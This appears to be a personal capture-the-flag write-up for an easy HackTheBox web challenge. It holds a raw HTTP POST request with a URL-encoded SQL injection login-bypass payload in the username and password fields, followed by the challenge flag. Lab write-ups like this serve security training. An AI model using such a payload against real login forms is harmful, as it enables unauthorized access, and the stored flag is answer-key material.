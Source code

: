 ```yaml
---
Category:
  - Web
Difficulty: Easy
Platform: HackTheBox
Status: 3. Complete
tags:
  - SQL-Injection
---
```

>[!quote]
> *Can you escape the query context and log in as admin at my super secure login page?*


# Set up

-

# Information Gathering

![Pasted image 20210818171101.png](../../zzz_res/attachments/Pasted_image_20210818171101.png)

# Exploitation

```
POST / HTTP/1.1
Host: 188.166.173.208:30599
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 77
Origin: <http://188.166.173.208:30599>
Connection: close
Referer: <http://188.166.173.208:30599/>
Upgrade-Insecure-Requests: 1

username=%27+OR+%271%27%3D%271%27+--+-&password=%27+OR+%271%27%3D%271%27+--+-
```

![Pasted image 20210818171251.png](../../zzz_res/attachments/Pasted_image_20210818171251.png)

# Flag

>[!success]
>`HTB{SQL_1nj3ct1ng_my_w4y_0utta_h3r3}`